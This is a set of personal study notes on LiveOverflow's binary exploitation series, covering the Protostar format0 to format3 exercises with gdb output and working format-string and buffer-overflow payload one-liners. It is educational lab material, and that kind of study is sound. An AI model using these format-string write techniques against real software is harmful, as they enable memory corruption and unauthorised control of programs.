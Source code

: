# LiveOverflow Binary Exploitation / Memory Corruption

### 0x10 Reversing C programs in 64bit vs 32 bit

Interesting walkthrough done on reversing executables in 64bit and 32bit while observing the differences and similarities in terms of the assembly code

### Format0

- Structure of stack (typically)

    ![](./images/stack.jpg)

- We can assume/RE and come to a conclusion that the buffer allocated in the stack comes before the

    ```
    (gdb) print &target
    $1 = (volatile int *) 0xbffffc9c
    (gdb) print &buffer
    $2 = (char (*)[64]) 0xbffffc5c
    ```

- printf outputs to stdout while sprintf outputs to a variable. Both equally vulnerable to format string attacks

- All we need to do is to overflow the buffer by sending a string of 64 chars + 0xdeadbeef

- We can optionally use a formatted string %64d instead of literally printing 64 chars to fill the buffer before overflowing to the target variable

- Answer:

    `/opt/protostar/bin/format0 $(python -c "print '%64d\xef\xbe\xad\xde'")`

    `/opt/protostar/bin/format0 $(python -c "print 'A'*64+'\xef\xbe\xad\xde'")`

### 0x11 Format String Exploit using Format1 Exercise

- Fundamentals:

    1. Format Strings allows you to specify variables as format paameters within the string itself.

    2. In the C language, if you use a format string without specifying format parameters, the compiler will take format parameters from memory, resulting in a format string attack which is essentially a memory leakage (similar to HeartBleed vulnerability)

    3. All we need to do is to print enough format parameters till we can find the location of our supplied parameters on the stack. Then, use the %n to write to the correct memory location

    4. We can use the following to get the memory location of variables (run the program and add a breakpoint):

        ```
        (gdb) whatis target
        type = int
        (gdb) info address target
        Symbol "target" is static storage at address 0x8049638.
        (gdb) x 0x8049638
        0x8049638 <target>:	0x00000000
        (gdb) print &target
        $3 = (int *) 0x80496f4
        (gdb) x/wx 0x80496f4
        0x80496f4 <target>:	0x00000000
        ```

        `objdump -t BINARY`

- Answer:

    CLI Version: `/opt/protostar/bin/format1 "$(python -c "import struct; print('AAAAAAAAAAAAAAAAAAAAAA' + struct.pack('I',0x8049638) + 'BB' + '%x_'*135 + '__%n')")"`

    GDB Version: `(gdb) r $(python -c "import struct; print('AAAAAAAAAAAAAAAAAAAAAA' + struct.pack('I',0x8049638) + 'BB' + '%x_'*136 + '______%n')")`

### Format2

- Same idea as format1, just that now we need to set a particular value to target

- For a given "%4$08n" format string, what the compiler will do is that it will directly access the 4th parameter on stack with "4$" and write the address (\xe4\x96\x04\x08) there with "%08n"

- Answer

    METHOD 1: `python -c "import struct;print('AAAA'+struct.pack('I', 0x080496e4)+'BBBBBBBBBBBBBBBBBBBBB'+'%x__'*4 + '%n')" | /opt/protostar/bin/format2`

    METHOD 2: `python -c 'print "\xe4\x96\x04\x08" + "%60d" + "%4$n"' | /opt/protostar/bin/format2`

### Format3

- Same idea as format2 but we can't do it using method 1 as the value to write to memory is too huge

- Have to use method 2, but there's actually 3 different ways to do it:

    1. 4byte

        - No difference from method 2

        - `python -c 'print "\xf4\x96\x04\x08" + "%16930112x" + "%12$n"' | /opt/protostar/bin/format3`

        - Use gdb to calculate offset `(gdb) print 0x01025544 - 0x04`

    2. 2byte

        - Did not really understand the method that they used

        - `python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%250x%13$hn" + "%21570x%12$hn"' | /opt/protostar/bin/format3`

        - `python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820x%12$n" + "%43966x%13$n" ' | /opt/protostar/bin/format3`

        - Workings

            ```
            0x(0008)[0008]
            0x0102|5544|
            
            (gdb) print |0x5544| - [0x8]
            $11 = 21820
            
            0x{5544}5544 -> answer
            
            (gdb) print 0x#10#102 - {0x5544} -> ## added cause its negative
            $16 = 43966
            ```

    3. 1byte

        - `python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "\xf7\x96\x04\x08" + "%52x%12$n" + "%17x%13$n" + "%173x%14$n" + "%255x%15$n"' | /opt/protostar/bin/format3`

### SSH problems

ssh -oHostKeyAlgorithms=+ssh-dss XXX@XXX.XXX.XXX.XXX

### References

https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-2-73ef08011a8c

https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-3-33e8d8f1e83

https://stackoverflow.com/questions/4462915/find-the-exact-address-of-variable-buf

https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf

https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss

https://askubuntu.com/questions/1222835/lubuntu-18-04-cant-ssh-to-cisco-router-no-matching-key-exchange-method-found?rq=1